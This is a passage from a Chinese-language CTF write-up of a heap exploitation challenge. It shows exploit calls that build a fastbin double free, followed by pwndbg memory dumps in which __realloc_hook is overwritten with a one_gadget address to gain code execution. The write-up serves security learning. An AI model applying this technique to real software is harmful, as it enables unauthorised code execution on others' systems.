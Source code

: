 **STEP4** 接下来就是fastbin double free了。

```
add(0x68, 'a' * 0x68)    # 3
add(0x68, 'b' * 0x68)    # 4
...
delete(3)
delete(4)
add(0x68, 'c' * 0x68)    # 3=chunk4
delete(4)
```

内存布局如下：

```
pwndbg> x/gx 0x6020a0
0x6020a0 <list>:        0x00000000011dd010
pwndbg> x/20gx 0x11dd010
0x11dd010:      0x0000000000000100      0x0000000000000002
0x11dd020:      0x0000000000000001      0x0000000000000080
0x11dd030:      0x00000000011de8e0      0x0000000000000001
0x11dd040:      0x0000000000000010      0x00000000011de8c0
0x11dd050:      0x0000000000000001      0x0000000000000080
0x11dd060:      0x00000000011de830      0x0000000000000001
0x11dd070:      0x0000000000000068      0x00000000011de9e0
0x11dd080:      0x0000000000000000      0x0000000000000000
0x11dd090:      0x00000000011de9e0      0x0000000000000000
0x11dd0a0:      0x0000000000000000      0x0000000000000000
pwndbg> x/32gx 0x11de970-0x10
0x11de960:      0x0000000000000090      0x0000000000000070
0x11de970:      0x0000000000000000      0x6161616161616161
0x11de980:      0x6161616161616161      0x6161616161616161
0x11de990:      0x6161616161616161      0x6161616161616161
0x11de9a0:      0x6161616161616161      0x6161616161616161
0x11de9b0:      0x6161616161616161      0x6161616161616161
0x11de9c0:      0x6161616161616161      0x6161616161616161
0x11de9d0:      0x0061616161616161      0x0000000000000071
0x11de9e0:      0x00000000011de960      0x6363636363636363
0x11de9f0:      0x6363636363636363      0x6363636363636363
0x11dea00:      0x6363636363636363      0x6363636363636363
0x11dea10:      0x6363636363636363      0x6363636363636363
0x11dea20:      0x6363636363636363      0x6363636363636363
0x11dea30:      0x6363636363636363      0x6363636363636363
0x11dea40:      0x0063636363636363      0x00000000000205c1
0x11dea50:      0x0000000000000000      0x0000000000000000
```

**STEP5** 通过fastbin double将fastbin构造在了`__realloc_hook`，最后触发realloc调用完成利用。

```
pwndbg> x/gx 0x6020a0
0x6020a0 <list>:        0x0000000001610010
pwndbg> x/20gx 0x0000000001610010
0x1610010:      0x0000000000000100      0x0000000000000004
0x1610020:      0x0000000000000001      0x0000000000000080
0x1610030:      0x00000000016118e0      0x0000000000000001
0x1610040:      0x0000000000000010      0x00000000016118c0
0x1610050:      0x0000000000000001      0x0000000000000080
0x1610060:      0x0000000001611830      0x0000000000000001
0x1610070:      0x0000000000000068      0x00000000016119e0
0x1610080:      0x0000000000000001      0x0000000000000068
0x1610090:      0x00000000016119e0      0x0000000000000001
0x16100a0:      0x0000000000000068      [0x007f94bf23cafd]               # 被分配在了realloc_hook附近
pwndbg> x/20gx 0x00007f94bf23cafd-0x5
0x7f94bf23caf8: 0x0000000000000000      0x0000000000000000
0x7f94bf23cb08 <__realloc_hook>:        [0x007f94bef69147]      0x0000000000000000   # 已被改为onegadget
```